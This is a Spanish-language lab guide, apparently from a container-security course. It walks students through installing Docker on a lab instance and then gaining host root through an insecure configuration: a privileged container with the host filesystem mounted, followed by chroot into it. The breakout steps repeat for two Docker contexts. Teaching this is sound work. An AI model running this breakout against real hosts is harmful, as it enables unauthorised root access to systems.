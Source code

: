 # Laboratorio 3: Elevación de privilegios

El objetivo del siguiente laboratorio es explotar una configuración insegura de Docker para escalar privilegios y obtener acceso root en el host de Docker.

## Requisitos previos
1. Accesso SSH a la instancia `docker25-<usuario>-inseguro.jpaniorte.com`
2. Contexto de Docker `inseguro` y `default` definidos. [Guia para crear contextos Docker](./contextos.md)

## Paso 1: Instalación de Docker

Accede a través de SSH a la instancia `docker25-<usuario>-inseguro.jpaniorte.com` y ejecuta los siguientes pasos:

1. Configura el repositorio Docker

        # Add Docker's official GPG key:
        sudo apt-get update
        sudo apt-get install ca-certificates curl
        sudo install -m 0755 -d /etc/apt/keyrings
        sudo curl -fsSL https://download.docker.com/linux/ubuntu/gpg -o /etc/apt/keyrings/docker.asc
        sudo chmod a+r /etc/apt/keyrings/docker.asc

        # Add the repository to Apt sources:
        echo \
        "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/ubuntu \
        $(. /etc/os-release && echo "${UBUNTU_CODENAME:-$VERSION_CODENAME}") stable" | \
        sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
        sudo apt-get update

2. Instalación

        sudo apt-get install -y docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin

3. Verifica la instalación

        sudo docker run hello-world

4. Añadimos el usuario ubuntu al grupo docker en el servidor Ubuntu:

        sudo groupadd docker
        sudo usermod -aG docker $USER
        newgrp docker

5. Comprueba que puedes ejecutar comandos docker sin sudo:

        docker run hello-world

6. Sal de la sesión ssh:
        
        exit

### Paso 2: Arancando un contenedor inseguro

Desde el PC del laboratorio, ejecuta los siguientes comandos:

        docker context use inseguro

Arranca un contenedor inseguro:

        docker run -d --rm --name vulnerable-container \
        --privileged \
        -v /:/host \
        ubuntu:latest sleep infinity

Explota la vulnerabilidad

        docker exec -it vulnerable-container /bin/bash

Dentro del contenedor, accede al sistema de archivos del host:

        cd /host
        ls -la

Deberías ver el sistema de archivos completo del host. Ahora, cambia al usuario root del host ejecutando:

        chroot /host /bin/bash

Esto te dará una shell con permisos de root en la instancia. Confírmalo ejecutando:

        whoami

Realiza varias pruebas para verificar que has elevado privilegios a través de un contenedor inseguro. Por ejemplo, puedes instalar algún paquete apt.


### Paso 3: Prueba en el contexto default

Desde el PC del laboratorio, ejecuta los siguientes comandos:

        docker context use default

Arranca un contenedor inseguro:

        docker run -d --rm --name vulnerable-container \
        --privileged \
        -v /:/host \
        ubuntu:latest sleep infinity

Explota la vulnerabilidad

        docker exec -it vulnerable-container /bin/bash

Dentro del contenedor, accede al sistema de archivos del host:

        cd /host
        ls -la

Deberías ver el sistema de archivos completo del host. Ahora, cambia al usuario root del host ejecutando:

        chroot /host /bin/bash

Esto te dará una shell con permisos de root en la instancia. Confírmalo ejecutando:

        whoami

Contesta a las siguientes preguntas:

- ¿Has podido elevar privilegios con la configuración actual del laboratorio?
